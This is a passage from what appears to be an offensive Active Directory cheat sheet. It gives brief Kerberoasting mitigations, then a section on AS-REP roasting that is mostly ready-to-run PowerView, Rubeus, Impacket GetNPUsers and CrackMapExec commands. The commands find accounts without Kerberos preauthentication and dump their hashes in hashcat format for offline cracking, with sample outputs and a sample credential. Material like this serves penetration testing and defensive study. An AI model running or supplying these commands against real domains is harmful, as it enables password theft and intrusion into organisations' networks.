 
Mitigations: 
* Have a very long password for your accounts with SPNs (> 32 characters)
* Make sure no users have SPNs

### KRB_AS_REP Roasting

> If a domain user does not have Kerberos preauthentication enabled, an AS-REP can be successfully requested for the user, and a component of the structure can be cracked offline a la kerberoasting

**Requirements**:
- Accounts with the attribute **DONT_REQ_PREAUTH** (`PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose`)

* [Rubeus](https://github.com/GhostPack/Rubeus)
  ```powershell
  C:\Rubeus>Rubeus.exe asreproast /user:TestOU3user /format:hashcat /outfile:hashes.asreproast
  [*] Action: AS-REP roasting
  [*] Target User            : TestOU3user
  [*] Target Domain          : testlab.local
  [*] SamAccountName         : TestOU3user
  [*] DistinguishedName      : CN=TestOU3user,OU=TestOU3,OU=TestOU2,OU=TestOU1,DC=testlab,DC=local
  [*] Using domain controller: testlab.local (192.168.52.100)
  [*] Building AS-REQ (w/o preauth) for: 'testlab.local\TestOU3user'
  [*] Connecting to 192.168.52.100:88
  [*] Sent 169 bytes
  [*] Received 1437 bytes
  [+] AS-REQ w/o preauth successful!
  [*] AS-REP hash:

  $krb5asrep$TestOU3user@testlab.local:858B6F645D9F9B57210292E5711E0...(snip)...
  ```

* [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) from Impacket Suite
  ```powershell
  $ python GetNPUsers.py htb.local/svc-alfresco -no-pass
  [*] Getting TGT for svc-alfresco
  $krb5asrep$23$svc-alfresco@HTB.LOCAL:c13528009a59be0a634bb9b8e84c88ee$cb8e87d02bd0ac7a[...]e776b4

  # extract hashes
  root@kali:impacket-examples$ python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
  root@kali:impacket-examples$ python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
  ```

* CrackMapExec Module
  ```powershell
  $ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asreproast output.txt
  LDAP        10.0.2.11       389    dc01           $krb5asrep$23$john.doe@LAB.LOCAL:5d1f750[...]2a6270d7$096fc87726c64e545acd4687faf780[...]13ea567d5
  ```
